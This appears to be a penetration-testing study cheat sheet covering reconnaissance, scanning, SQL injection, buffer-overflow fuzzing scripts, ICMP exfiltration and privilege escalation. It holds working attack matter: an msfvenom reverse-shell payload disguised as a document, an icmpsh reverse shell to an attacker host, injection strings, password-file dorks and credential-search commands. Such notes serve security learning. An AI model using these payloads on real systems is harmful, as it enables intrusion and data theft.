

# Table of Content

- [Pentest](#pentest)
  - [Frameworks](#frameworks)
  - [Phases](#phases)
  - [Pre-engagment](pre-engagement)
  - [Intelligence gathering](#intelligence-gathering)
      - [Tools](#tools)
      - [Google Hacks / dorks](#google-hacks--dorks)
      - [Knowledge databases](#knowledge-databases)
      - [Network scanning](#network-scanning)
      - [Port scanning](#port-scanning)
      - [Ports](#ports)
  - [Reporting](#reporting)
- [Training](#training)
- [Attacks](#attacks)
  - [Xmas attack](#xmas-attack)
  - [Null attack](#null-attack)
  - [XSS](#xss)
  - [SQL Injection](#sql-injection)
  - [Buffer overflow](#buffer-overflow)
- [Data exfiltration](#data-exfiltration)
  - [ICMP - Internet Control Message Protocol](#icmp---internet-control-message-protocol)
- [Privilege Escalation](#privilege-escalation)
  - [Windows](#windows)
  - [Linux](#linux)
- [Lexical](#lexical)
- [Learning](#learning)

# Pentest

## Frameworks

- https://attack.mitre.org/
- https://owasp.org/

## Phases

  - Pre-engagement
  - Interactions
  - Intelligence Gathering
  - Threat Modeling
  - Vulnerability Analysis
  - Exploitation
  - Post Exploitation
  - Reporting

## Pre-engagement

Write an agreement (out of prison card)

  - Scope
  - Timeframe

Separate
  - Ransomeware
  - DDoS
  - Social engineering

## Intelligence gathering

### Tools

See [tools page](./tools/tools.md)

### Google Hacks / dorks
  - camera linksys inurl:main.cgi
  - intitle:"toshiba network camera - User login"
  - ext:php
  - "SquirrelMail vesion 1.4" inurl:src ext:php
  - intitle:"Welcome to Windows Small Business Server 2003"
  - ext:pwd inurl:(service|authors|administrators|users) "# - Frontpage"
  - intitle:"index of /" password.txt

### Knowledge databases
  - https://www.exploit-db.com/ - Exploit DB
  - https://www.mend.io/vulnerability-database/ - Vulns DB
  - https://cve.mitre.org/data/refs/refmap/source-OSVDB.html - OSVDB to CVE
  - https://www.shodan.io/ - Connected devices

### Network scanning

    ┌──(kali㉿kali)-[~]
    └─$ nmap -sP 192.168.56.0/24
    Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-04 05:44 EDT
    Nmap scan report for 192.168.56.101
    Host is up (0.0026s latency).
    Nmap scan report for 192.168.56.105
    Host is up (0.012s latency).
    Nmap done: 256 IP addresses (2 hosts up) scanned in 15.36 seconds

#### VirtualBox network

### Port scanning
> Jackpot if these ports are open: 21, 80, 139, 445

Commands:
  - nmap
  - hping3 - nmap with traceroute
    - DDoS with `--flood`
#### Export (for dradis)

    nmap -sV -oX - <ip> > /kali-share/nmap-<ip>.xml
    
#### Vulnerability scan

    nmap -v --script vuln <ip>
    
#### Auth scan

    nmap -v --script auth <ip>

#### Noisy scan

    nmap -p- -sV -T4 <ip>

  - `-p-` all ports
  - `-T4` set timing template
    - paranoid (0)
    - sneaky (1)
    - polite (2)
    - normal (3)
    - aggressive (4)
    - insane (5)
  - `-sV` get service versions

### Ports
#### FTP - 21

    nc <ip> 21

#### HTTP - 80

Commands:
  - [dirb](./tools/tools.md#dirb)
  - [nikto](./tools/tools.md#nikto)
  
Tools:
  - burpsuite
  - dirbuster

#### MiniServ (Webmin) - 10000, 20000
Go to `https://<ip>:10000/`

#### NETBIOS-SSN / SMB - 139, 445

    enum4linux -a <ip> >> /kali-share/enum4linux-<ip>.txt

#### SNMP (Simple Noetwork Management Protocol) - UDP 161, UDP 162
	
    onesixtyone -c /usr/share/doc/onesixtyone/dict.txt <ip>
    snmpwalk -c public <ip> -v1
    snmpset

## Reporting

https://pentestreports.com/

# Training
See the [training page](./training/training.md)

# Attacks
## Xmas attack

    sudo nmap -sX <ip> -p<port>
    
For UDP use -sU

## Null attack

    sudo nmap -sN <ip> -p<port>
    
For UDP use -sU
## XSS

### Payloads
#### Simple
    
    
#### Cookie forwarding
    

##### Listening with python http server
    python3 -m http.server <listening-port>

Will allow to get the session cookies of users

#### Malware download

    

Create a shell reversal with `msfvenom`

    msfvenom -p windows/shell_reverse_tcp LHOST=<attacker ip> LPORT=<attacker listening port> EXITFUNC=thread -f exe -a x86 --platform windows -b "\x00\x0a\x0d" -e x86/shikata_ga_nai > /var/www/html/document.exe

## SQL Injection
### Principle 
Find any input which will be part of a SQL Query

Inputs examples:
  - Form field input
  - URL parameter

In the input vulnerable to SQL injection, insert:

    ' or 1=1 --

Finishing the query with `;` instead of `--` will most likely end up throwing an error

### Exploitation

Step 1: Find out the number of columns fetched

    ' ORDER BY <num> --
Increment `<num>` until an error is thrown

Step 2: Display injected data

    ' UNION SELECT 1,2,3,...,<num> --

This inject "1", "2"... in the query's result.  
If you are manipulating a php page with an ID like `edit.php?id=1' UNION SELECT 1,2,3,4--`, you can change the id until your data is displayed

Step 3: Extract information

Once your data is displayed, switch from data injection to data extraction by replacing `UNION SELECT 1,2,3,4` with something like

    UNION SELECT @@version, user() ...

Useful functions:
  - `@@version` Version of the SQL server
  - `user()` Current user running the query
  - `LOAD_FILE('/etc/passwd')` Loads a requested file
  - `UPLOAD_FILE('<filepath>')` That could be used with XSS to upload a backdoor

### Tool

#### sqlmap  
automatic SQL injection tool   
https://www.kali.org/tools/sqlmap/  
https://manpages.org/sqlmap

sqlmap goal is to detect and take advantage of SQL injection vulnerabilities in web applications. Once it detects one or more SQL injections on the target host, the user can choose among a variety of options to perform an extensive back-end database management system fingerprint, retrieve DBMS session user and database, enumerate users, password hashes, privileges, databases, dump entire or user’s specific DBMS tables/columns, run his own SQL statement, read specific files on the file system and more.

##### Usage

    sqlmap -u "<page with sql inj. vuln>" --cookie "<session cookie>"

Options:
 - `--dump` SQL dump of the database
 - `--os-shell` Prompt for an interactive operating system shell  
Needs to know which web application language the web server supports
 - `--sql-shell` Prompt for an interactive SQL shell

## Buffer overflow

### Tools

#### Vulnserver
This server has a buffer overflow vuln
https://github.com/stephenbradshaw/vulnserver

### Immunity debugger
Tool to see the memory of a program  
Use it by binding it to the vulnserver
https://immunityinc.com/products/debugger/

poc.py

    #!/usr/bin/python
    
    import socket
    import os
    import sys
    import time
    
    host="10.211.55.7"
    port=4444
    
    buffer=["A"]
    counter=100
    while len(buffer) <= 30:
            buffer.append("A"*counter)
            counter=counter+200
    
    for string in buffer:
        print "fuzzing TRUN with %s bytes" % len(string)
        expl = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        expl.connect((host, port))
        expl.send("TRUN /.:/" + string)
        expl.close()
        time.sleep(1)

poc2.py

    #!/usr/bin/python

    import socket
    import os
    import sys
    
    host="10.211.55.7"
    port=4444
    
    buffer = "TRUN /.:/" + "A" * 5900
    
    expl = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    expl.connect((host, port))
    expl.send(buffer)
    expl.close()

### General

  - ESP: Top of stack
  - EBP: Bottom of stack
  - EIP: Pointer to the next instruction to be executed

### Goal

The EIP has not a fixed address and we need to find it

poc.py sends payloads (filled with A) that are every time bigger to see if EIP get overwritten

poc2.py sends a payload (filled with consecutive chars) to find the exact address of the EIP

# Data exfiltration
## ICMP - Internet Control Message Protocol

**Goal:** Extract data through the ICM protocol  
**How:** Using impacket and icmpsh

ICMP is a protocol intented to be lightweight (small messages)  
Impacket helps chunk data to extract them using icmpsh  
icmpsh makes a reversal shell between target and attacker

### Tools

Install python-pip

    sudo apt install python3-pip

Install impacket

    sudo git clone https://github.com/SecureAuthCorp/impacket.git
    sudo pip3 install -r /<git cloning path>/impacket/requirements.txt
    sudo python3 /<git cloning path>/impacket/setup.py install

Install icmpsh

    sudo git clone https://github.com/bdamele/icmpsh.git
    cd icmpsh

Insert in `/etc/sysctl.conf`

    net.ipv4.icmp_echo_ignore_all=1

### Usage
#### Attacker machine

    sudo ./icmpsh_m.py <attacker-ip> <target-ip>

#### Target machine

You need to upload a icmpsh tool on the target machine first

##### Send test  

    icmpsh.exe -t <attacker-ip> -r

##### Open reversal
    icmpsh.exe -t <attacker-ip>

# Privilege Escalation
## Windows
### Security Updates

    wmic qfe get Caption,Description,HotFixID,InstalledOn

#### Check if an update is installed

    wmic qfe get Caption,Description,HotFixID,InstalledOn | findstr /C:"KB123123"

### Query Registry

    reg query HKCU\SOFTWARE\Policies

#### Softwares

    reg query HKEY_LOCAL_MACHINE\Software\Policies
    reg query HKEY_LOCAL_MACHINE\Software\Policies\Microsoft

### Search

    dir /s *password*
    findstr /si password *.xml *.ini *.txt

## Linux

https://delinea.com/blog/linux-privilege-escalation

| Enumeration Commands                                                               | Description                                 |
|------------------------------------------------------------------------------------|---------------------------------------------|
| id                                                                                 | print real and effective user and group IDs |
| whoami                                                                             | current user                                |
| hostname                                                                           | show or set the system's host name          |
| uname                                                                              | print system information                    |
| ps -ef                                                                             | report a snapshot of the current processes  |
| echo $PATH                                                                         | print environment PATH variable             |
| ifconfig                                                                           | configure a network interface               |
| cat /etc/passwd                                                                    | show passwd file contents                   |
| sudo -l                                                                            | list commands allowed using sudo            |
| find / -type f -a \\( -perm -u+s -o -perm -g+s \\) -exec ls -l {} \\; 2> /dev/null | Find all files suid and sgid files          |

### Tools

- [LinEnum.sh](./tools/tools.md#linenum---linux-enumeration-script)
- [LinPEAS](./tools/tools.md#linpeas---linux-privilege-escalation-awesome-script)

### Links

- https://delinea.com/blog/linux-privilege-escalation
- https://null-byte.wonderhowto.com/how-to/use-linenum-identify-potential-privilege-escalation-vectors-0197225/

### OS / Architecture / Kernel version

    uname -a
    cat /proc/version
    cat /etc/issue

Don't use kernel exploits if you can avoid it. If you use it it might crash the machine or put it in an unstable state.  
So kernel exploits should be the last resort. Always use a simpler priv-esc if you can. They can also produce a lot of stuff in the sys.log.  
So if you find anything good, put it up on your list and keep searching for other ways before exploiting it.

### Running Processes

    ps aux

### Installed softwares

    # Common locations for user installed software
    /usr/local/
    /usr/local/src
    /usr/local/bin
    /opt/
    /home
    /var/
    /usr/src/
    
    # Debian
    dpkg -l
    
    # CentOS, OpenSuse, Fedora, RHEL
    rpm -qa (CentOS / openSUSE )
    
    # OpenBSD, FreeBSD
    pkg_info

### Weak/reused/plaintext passwords
  - Check file where webserver connect to database (config.php or similar)
  - Check databases for admin passwords that might be reused
  - Check weak passwords

    username:username
    username:username1
    username:root
    username:admin
    username:qwerty
    username:password

  - Check plaintext password

### Anything interesting the the mail?
/var/spool/mail
./LinEnum.sh -t -k password

# Lexical
## Samba
Search also: smb

# Learning

  - [Offensive Security - Penetrations Testing Bootcamp](https://github.com/phr85/swiss-cyber-defence/tree/main/Courses/Offensive%20Security%20-%20Penetrations%20Testing%20Bootcamp)